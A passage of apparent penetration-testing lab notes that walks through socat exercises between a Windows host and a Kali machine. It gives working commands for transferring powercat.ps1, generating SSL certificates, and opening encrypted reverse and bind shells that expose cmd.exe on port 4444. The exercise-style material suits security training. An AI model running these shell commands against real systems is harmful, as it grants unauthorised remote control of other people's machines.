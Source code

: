 Get it from Windows:
```
socat.exe TCP4-CONNECT:10.0.2.15:80 file:powercat.ps1,create
```

2. Use socat to create an encrypted reverse shell from your Windows system to your Kali machine.

Set up listener on Kali box. First create the ssl key and certificate:
```
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 36 -out shell.crt
Generating a RSA private key
.................+++++
...............+++++
writing new private key to 'shell.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

Generate .pem file from them:
```
$ cat shell.key shell.crt > shell.pem
```

Run listener from the Kali machine using as certificate the generated pem file:
```
sudo socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0,fork STDOUT
```

Trigger reverse shell from Windows:
```
socat.exe OPENSSL-CONNECT:10.0.2.15:4444,verify=0 EXEC:cmd.exe,pipes
```

3. Create an encrypted bind shell on your Windows system. Try to connect to it from Kali without encryption. Does it still work?
socat - TCP4-CONNECT:10.0.2.4:4444

Bind shell from the Windows machine:
```
C:\Users\User>repositories\socat-windows\socat.exe -d -d OPENSSL-LISTEN:4444,cert=shell.pem,verify=0,fork EXEC:cmd.exe,pipes
      1 [main] socat 5564 find_fast_cwd: WARNING: Couldn't compute FAST_CWD pointer.  Please report this problem to
the public mailing list cygwin@cygwin.com
2020/11/04 14:01:24 socat[5564] N listening on AF=2 0.0.0.0:4444
```
